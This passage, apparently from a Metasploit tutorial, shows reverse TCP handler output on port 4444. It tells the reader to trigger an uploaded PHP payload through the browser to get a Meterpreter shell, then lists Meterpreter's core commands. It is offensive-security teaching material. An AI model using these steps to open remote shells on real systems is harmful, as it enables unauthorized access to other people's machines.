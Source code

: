 [-] Handler failed to bind to 10.0.0.27:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Starting the payload handler...
```

This will wait for the reverse connection from the target machine.

The second and final step is to execute the PHP file. Click the PHP file or visit its url in the browser. This will execute the PHP code, create a shell, and open a connection to your metasploit console.


Houston, We Have A Shell

Now you have a Meterpreter shell.

Time to learn a whole new set of tools!
```

meterpreter > ?

Core Commands
=============

    Command                   Description
    -------                   -----------
    ?                         Help menu
    background                Backgrounds the current session
    bgkill                    Kills a background meterpreter script
    bglist                    Lists running background scripts
    bgrun                     Executes a meterpreter script as a background thread
    channel                   Displays information or control active channels
    close                     Closes a channel
    disable_unicode_encoding  Disables encoding of unicode strings
    enable_unicode_encoding   Enables encoding of unicode strings
    exit                      Terminate the meterpreter session
    get_timeouts              Get the current session timeout values
    help                      Help menu
    info                      Displays information about a Post module
    irb                       Drop into irb scripting mode
    load                      Load one or more meterpreter extensions
    machine_id                Get the MSF ID of the machine attached to the session
    quit                      Terminate the meterpreter session
    read                      Reads data from a channel
    resource                  Run the commands stored in a file
    run                       Executes a meterpreter script or Post module
    set_timeouts              Set the current session timeout values
    use                       Deprecated alias for 'load'
    uuid                      Get the UUID for the current session
    write                     Writes data to a channel


Stdapi: File system Commands
============================
